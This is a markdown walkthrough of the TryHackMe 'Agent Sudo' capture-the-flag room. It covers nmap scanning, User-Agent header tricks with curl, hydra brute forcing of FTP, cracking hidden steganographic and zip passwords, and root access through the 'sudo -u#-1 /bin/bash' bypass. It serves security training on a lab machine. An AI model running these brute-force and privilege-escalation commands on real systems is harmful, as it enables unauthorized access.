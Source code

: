 # Agent-sudo
  ~ https://tryhackme.com/room/agentsudoctf
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![agent intro](https://user-images.githubusercontent.com/112984045/200202387-5bdfb2f9-7472-4800-98c3-4be0c7cf5cd6.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![agent nmap](https://user-images.githubusercontent.com/112984045/200202581-9bf78648-dd20-405c-a637-f425b7906587.png)
<br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
 ![agent portscanner](https://user-images.githubusercontent.com/112984045/200202803-394383ff-08e1-482d-81fc-dcf55cb58e0c.png)<br>

  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ![agent web](https://user-images.githubusercontent.com/112984045/200203533-42b6d9f3-8958-4fde-9071-022fc1017b4f.png)
  <br> ~ Here we have been redirected to Annoucement page as user-agent.
  
  
 * After reading hint for the next question, we came to know that this is not a browser thing and lets for curl command :
 ```bash
 curl http://<IP> -H "User-Agent : R" -L
 ```
 #### arguments
 ` -H : used for mentioning the host name .i.e User-Agent : R`<br>
 ` -L : used to follow any redirects`
 <br>
 ![agent curlR](https://user-images.githubusercontent.com/112984045/200206715-6a3b72ad-ef57-4f6f-a78b-d1c6e3903f91.png)
<br> ~ the Agent R is talking about other 25 users and hint is given as 'user agent : C'
* Lets curl once again using ' User-Agent : C'
```bash
curl http://<IP> -H "User-Agent : C" -L
```
![agent curlC](https://user-images.githubusercontent.com/112984045/200207134-58f372d6-b46b-4c24-80fc-21ec4f91eb46.png)
<br> ~ Here we came to the name of the Agent and there is one more Agent called Agent-J.

## FOOTHOLD
* Now we have the name of user, maybe we can try bruteforcing the ftp and ssh server.
* By looking at the next question, we go for FTP bruteforce first using hydra command :
```bash
hydra -l < user name that we got in curl > -P < rockyou file including its path> ftp://<IP>
```
![agent hydra](https://user-images.githubusercontent.com/112984045/200208317-9c6e5cda-379d-443e-a591-109cbaca36a2.png)
<br> ~ We have successfully got the username and password for FTP.

<br>

* After logging in to FTP, we can look for files and get them using the commands :
``` bash
ls -la
```
```bash
get cutie.png
```
```bash
get To_agentJ.txt
```
```bash
get cute-alien.jpg
```
![agent ftplogin](https://user-images.githubusercontent.com/112984045/200209136-fb680d99-f316-4702-ba9d-ebbccc994923.png)

<br>

* Now we can read the files using cat command :
```bash
cat To_agentJ.txt 
```
![agent to_agentJ](https://user-images.githubusercontent.com/112984045/200210004-d72412f2-3131-4a9b-ae7e-7010b6d8daae.png)
 <br> ~ Here we can understand that the other two are not just pictures but something is hidden in them.
<br>

` * Insted of john-the-ripper i have used stegcracker which is less complex but time consuming.`
 ![agent stegcracker fail](https://user-images.githubusercontent.com/112984045/200213716-7237b48b-25f7-4a42-9a7f-a2760142500b.png)
 <br> ~ Firstly i have tried to crack 'citie.png' which poped as error. Then gone for the other file 'cute-alien.jpg'.
 <br>
 
 ```bash
 stegcracker cute-alien.jpg
 ```
![agent stegcracker pass](https://user-images.githubusercontent.com/112984045/200214249-01285045-e96d-4442-aaaa-5e57898cc6e1.png)
 <br> 
 ` ~ At this point the FULLNAME of the other Agent and his PASSWORD, These might be the credentials for SSH.`
 
 #### but... wait a minute !!!!
 ![agent zip qa](https://user-images.githubusercontent.com/112984045/200215759-ebda9449-a8dd-4ea1-8f01-20e179c7712c.png)<br>
 #### who are you!
 
 <br>
 
 `* Now we should definetly go for john-the-ripper.`
 <br>
 
 * Firstly, to extract hidden directory use the command :
 ```bash
 sudo binwalk -e cutie.png --run-as=root
 ```
 ![agent binwalk](https://user-images.githubusercontent.com/112984045/200216514-c741df53-5cc1-46e3-a2c2-b8be84f8bade.png)
 <br> ~ There is a zip file here named '8702.zip'.
 * When we try to unzip the file, it redirecting us to To_agentR.txt
  <br>
  * We can use john for here
  * Firstly get the hash into a file by using the command :
  ```bash
  john 8702.zip > zip.hash
  ```
  ![agent hash](https://user-images.githubusercontent.com/112984045/200217404-aff6bfe1-0fba-4a03-80f8-ea7805ad72b7.png)

  
  * Then go for cracking the hash by using the command :
  ```bash
  john zip.hash
  ```
 ![agent upzip](https://user-images.githubusercontent.com/112984045/200217570-c5cf4f16-20e3-4b33-bfdc-b37066202d60.png)
<br> ~ Now we have the password for zip file, we can go for unzip but it is not working properly.

* We have alternate 7z for this, use the command :
```bash
7z e 8702.zip
```
![agent 7z](https://user-images.githubusercontent.com/112984045/200218572-0e649a7b-ec62-4308-986b-cf524ad28b7d.png)
<br> ~ Successfully stored the contents to To_agentR.txt.

* We can have a look, this seems to be one more username which hashed.

<br>

* Let us go for [CyberChef](https://icyberchef.com/) to extract the hash.<br>
![agent cyberchef](https://user-images.githubusercontent.com/112984045/200219353-27119b5d-d9d3-49fc-b430-469b6350b3cd.png)

` I WAS SHOCKED AFTER LOOKING AT THIS OUTPUT `
* This was just the same password which i have very long ago using 'stegcracker'.
<br>

* Ok.. Now let us login to SSH with the credentials we already had we had long ago.
* ![agent userflag](https://user-images.githubusercontent.com/112984045/200223600-afb7329d-6b20-44bc-839a-d8bdc96ead16.png)
<br> ~ I have just loged in and captured the user flag.Then downloaded the 'Alien_autospy.jpg' file using the command : 
```bash
scp <ssh_user@IP>:Alien_autospy.jpg <directory path>
```
![agent scp](https://user-images.githubusercontent.com/112984045/200224880-50e93634-eefc-4412-b06d-5918a0c9c43c.png)

* The image question was a bit tircky. Here we have to search for 'reverse image search' in google.
* Upload the image their and look for FOX-NEWS' articals in results.




## PRIVILEGE ESCALATION :
* Let us check for sudo rights of the user using the command :
``` bash
sudo -l
```
![agent sudo-l](https://user-images.githubusercontent.com/112984045/200225138-dbf7cf90-c0e2-43c3-a99a-7f2dea847c5f.png)
<br> ~ These rights are a bit different.<br>
` the user cannot run /bin/bash as root which is mentioned.`<br>
` but all refer that user can run /bin/bash as any other user.`

* We can directly gain the root access using the command : 
```bash
sudo -u#-1 /bin/bash
```

<br>
* Rather i have searched for google regarding this right.
* I end up using the same command after getting CVE: details on google.
![agent rootflag](https://user-images.githubusercontent.com/112984045/200226962-1c1b493b-a26b-4f54-a154-d7f77fbe2dde.png)
<br> ~ We have successfully escalated to root and captured the flag.
* At last the name of Agent R is revealed, which even i was curious to know.



 
